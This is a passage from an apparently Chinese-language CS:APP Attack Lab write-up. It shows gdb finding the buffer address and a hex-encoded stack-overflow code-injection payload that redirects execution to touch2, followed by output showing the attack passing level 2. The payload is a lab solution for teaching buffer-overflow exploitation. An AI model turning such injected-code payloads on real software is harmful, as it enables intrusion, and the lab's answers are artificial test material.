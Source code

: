 ![](./images/blog20210219/buf.png)

找到buffer被分配到的地址
```txt
Breakpoint 1, 0x00000000004017af in getbuf () at buf.c:14
14    buf.c: No such file or directory.
(gdb) print $rsp
$1 = (void *) 0x5561dc78
```
所以我们的输入bytes文件为：
```txt
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
可以正确完成攻击：
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ vim bytes 
sugar@ubuntuServer:~/csappLab/attacklab$ ./hex2raw < bytes > args.txt 
sugar@ubuntuServer:~/csappLab/attacklab$ ./ctarget -q -i args.txt 
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
    user id    bovik
    course    15213-f15
    lab    attacklab
    result    1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```
## Ctarget level3
